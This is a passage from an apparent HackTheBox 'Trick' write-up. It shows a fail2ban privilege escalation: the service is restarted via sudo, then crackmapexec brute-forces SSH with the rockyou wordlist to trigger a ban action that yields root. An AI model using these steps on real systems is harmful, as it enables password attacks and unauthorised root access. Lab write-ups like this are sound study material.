-rw-r--r-- 1 root    root    2.1K Aug 29 20:18 iptables-multiport-log.conf
-rw-r--r-- 1 root    root    1.5K Aug 29 20:18 iptables-new.conf
-rw-r--r-- 1 root    root    2.6K Aug 29 20:18 iptables-xt_recent-echo.conf
```


- Now restart
```
michael@trick:/etc/fail2ban/action.d$ sudo /etc/init.d/fail2ban restart
sh: 0: getcwd() failed: No such file or directory
[ ok ] Restarting fail2ban (via systemctl): fail2ban.service.
```

- Start `crackmapexec`
  - `crackmapexec ssh trick.htb -u pentest -p /usr/share/wordlists/rockyou.txt`
  - Check `/tmp` after a while and we are root


